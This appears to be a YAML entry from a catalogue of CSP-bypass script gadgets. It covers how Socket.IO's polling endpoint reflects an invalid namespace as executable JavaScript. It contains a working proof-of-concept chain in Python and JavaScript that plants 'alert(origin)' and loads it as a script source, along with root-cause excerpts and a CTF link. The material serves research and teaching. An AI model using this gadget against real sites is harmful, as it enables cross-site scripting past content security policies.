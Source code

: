 ```yaml
---
description: Realtime application framework (Node.JS server)
github: socketio/socket.io
gadgets:
  Latest:
    authors:
      - twitter:j0r1an
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - script-tag
      - src-attr
      - wh-host-csp
      - any-timing
    pocs:
      - description: |
          The SocketIO client-server communication library has multiple modes is transporting data, one of which is "polling". In this mode, a long-lived request is sent that is only resolved when the server has a message to send to the client. These messages use [a custom protocol](https://socket.io/docs/v4/socket-io-protocol/) which happens to be valid JavaScript, allowing it to be used as a script gadget.

          *From an attacker's backend*, you need to first set up a new random session and send an invalid namespace request, to which the server will respond through another channel, reflecing your given namespace. You will craft a URL for this other channel containing the SocketIO session ID, which the victim will fetch by sending them to a dynamically generated payload. It will be valid for ~30 seconds.

          The following Python script generates a URL that responds with `alert(origin)` on the host when visited:

          ```python
          import requests
          import json

          HOST = "https://socketio.jtw.sh"

          # Request session ID
          r = requests.get(HOST + "/socket.io/", params={"EIO": 4, "transport": "polling"})
          sid = json.loads(r.text[1:])["sid"]
          # Send POST message
          r = requests.post(HOST + "/socket.io/", params={"EIO": 4, "transport": "polling", "sid": sid},
                            data="40/alert(origin),")
          # Craft URL for response
          url = f"/socket.io/?EIO=4&transport=polling&sid={sid}"
          print(url)  # eg. "/socket.io/?EIO=4&transport=polling&sid=gaMirGDfHcBJrIdUAAAD"
          ```

          The above can be implemented into a Flask server that stores the URL in an XSS payload and redirects the victim to it. The code below is an implementation in JavaScript that showcases the full chain.
        code: |
          <base href="https://socketio.jtw.sh">
          <script>
            (async () => {
              // Request session ID
              res = await fetch("/socket.io/?" + new URLSearchParams({ EIO: 4, transport: "polling" })).then(r => r.text());
              sid = JSON.parse(res.slice(1))["sid"];
              // Send POST message
              await fetch("/socket.io/?" + new URLSearchParams({ EIO: 4, transport: "polling", sid }), {
                method: "POST",
                body: "40/alert(origin),"
              });
              // Craft URL for response
              url = "/socket.io/?" + new URLSearchParams({ EIO: 4, transport: "polling", sid });
              console.log(url);  // eg. "/socket.io/?EIO=4&transport=polling&sid=gaMirGDfHcBJrIdUAAAD"
            
              // (loading script example for preview)
              const script = document.createElement("script");
              script.src = url;
              document.body.appendChild(script);
            })();
          </script>
          <!-- user input -->
          <script src="/socket.io/?EIO=4&transport=polling&sid=gaMirGDfHcBJrIdUAAAD"></script>
    more-info: |
      **Root Cause**
      
      Source: <a target="_blank" href="https://github.com/socketio/socket.io/blob/e95f6abf93766662cd3b341599ed312f4330213f/packages/socket.io/lib/client.ts#L137">https://github.com/socketio/socket.io/blob/e95f6abf93766662cd3b341599ed312f4330213f/packages/socket.io/lib/client.ts#L137</a>

      ```javascript
      this._packet({
        type: PacketType.CONNECT_ERROR,
        nsp: name,
        data: {
          message: "Invalid namespace",
        },
      });
      ```

      Source: <a target="_blank" href="https://github.com/socketio/socket.io/blob/e95f6abf93766662cd3b341599ed312f4330213f/packages/socket.io-parser/lib/index.ts#L101">https://github.com/socketio/socket.io/blob/e95f6abf93766662cd3b341599ed312f4330213f/packages/socket.io-parser/lib/index.ts#L101</a>

      ```javascript
      private encodeAsString(obj: Packet) {
        // first is type
        let str = "" + obj.type;

        // attachments if we have them
        if (
          obj.type === PacketType.BINARY_EVENT ||
          obj.type === PacketType.BINARY_ACK
        ) {
          str += obj.attachments + "-";
        }

        // if we have a namespace other than `/`
        // we append it followed by a comma `,`
        if (obj.nsp && "/" !== obj.nsp) {
          str += obj.nsp + ",";
        }

        // immediately followed by the id
        if (null != obj.id) {
          str += obj.id;
        }

        // json data
        if (null != obj.data) {
          str += JSON.stringify(obj.data, this.replacer);
        }

        debug("encoded %j as %s", obj, str);
        return str;
      }
      ```
    links:
      - https://jorianwoltjer.com/blog/p/ctf/intigriti-xss-challenge/0725#csp-bypass-using-socket-io
      - https://socket.io/docs/v4/socket-io-protocol/
---
```

